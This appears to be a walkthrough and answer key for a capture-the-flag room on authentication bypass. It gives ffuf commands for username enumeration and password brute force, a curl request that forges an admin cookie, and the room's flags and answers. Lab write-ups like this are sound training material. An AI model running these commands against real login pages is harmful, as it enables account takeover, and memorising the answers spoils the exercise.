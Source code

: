 # Authentication Bypass

## Task 1 - Brief
No answer needed, deploy the machine

## Task 2 - Username Enumeration

In order to get the answers for the second task, the following command has to be executed:

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http:// IP deployed machine/customers/signup -mr "username already exists" > valid_usernames.txt

At the end of the command we are creating a file called "valid_usernames.txt" with the results of the command executed.
<br/>


Answers:  
<br/>


What is the username starting with si*** ?  

R/ simon


What is the username starting with st*** ?  

R/ steve


What is the username starting with ro**** ?  

R/ robert

## Task 3 - Brute Force

The following command must be use in order to get the answer.

ffuf -w usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http:// IP deployed machine/customers/login -fc 200

Note: I had to create a new file that I named "usernames.txt" with the same information that I found in Task 2 due to the issue mentioned in task 3.

Answer:
<br/>

What is the valid username and password (format: username/password)?

R/ steve/thunder

## Task 4 - Logical Flaw

Answer:
<br/>

What is the flag from Robert's support ticket?

R/ THM{AUTH_BYPASS_COMPLETE}

## Task 5 - Cookie Tampering



What is the flag from changing the plain text cookie values?

To get the answer the cookie admin needs to be set to "true". curl - H "Cookie: logged_in=true; admin=true" http:// IP deployed machine/cookie-text

R/ THM{COOKIE_TAMPERING}

<br/>



What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?

Go to the site https://crackstation.net/ enter as input the hash value and then click on Crack Hashes button and you will get the response.

R/ 463729

<br/>



What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?

Go to the site https://gchq.github.io/CyberChef/ select "From Base64" and add it to recipe. Once it has been added to recipe copy the base64 encode value and paste it on "Input" section and you will get the response.

R/ THM{BASE64_ENCODING}

<br/>



Encode the following value using base64 {"id":1,"admin":true}

Go to the site https://gchq.github.io/CyberChef/ select "To Base64" and add it to recipe. Once it has been added to recipe copy the string value value and paste it on "Input" section and you will get the response.

R/ eyJpZCI6MSwiYWRtaW4iOnRydWV9
